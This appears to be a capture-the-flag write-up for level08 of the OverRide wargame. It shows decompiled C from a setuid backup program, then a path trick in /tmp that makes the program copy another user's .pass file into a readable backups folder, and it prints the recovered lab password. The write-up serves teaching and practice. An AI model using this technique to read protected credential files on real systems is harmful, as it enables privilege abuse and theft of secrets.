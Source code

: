 This level is a program that expects a file in argv[1] in order to save it.

We can see that the program opens the file provided as an argument.
```c
FILE* rax_12 = fopen(argv[1], &data_400da9);
if (rax_12 == 0)
{
    printf("ERROR: Failed to open %s\n", argv[1]);
    exit(1);
    /* no return */
}
```
And then it will open the same file in ./backups/ and write its content into it.

```c
strncat(&var_78, argv[1], (0x63 - ((!rcx) - 1)));
int32_t rax_22 = open(&var_78, 0xc1, 0x1b0);
if (rax_22 < 0)
{
    printf("ERROR: Failed to open %s%s\n", "./backups/", argv[1]);
    exit(1);
    /* no return */
}
while (true)
{
    var_79 = fgetc(rax_12);
    if (var_79 == 0xff)
    {
        break;
    }
    write(rax_22, &var_79, 1);
}
```

Simply by going into tmp to have file creation rights, we can create the directories /home/users/level09/

```
level08@OverRide:/tmp$ mkdir -p ./backups/home/users/level09
```

Then execute the program from the tmp directory 
```
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
```

```
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```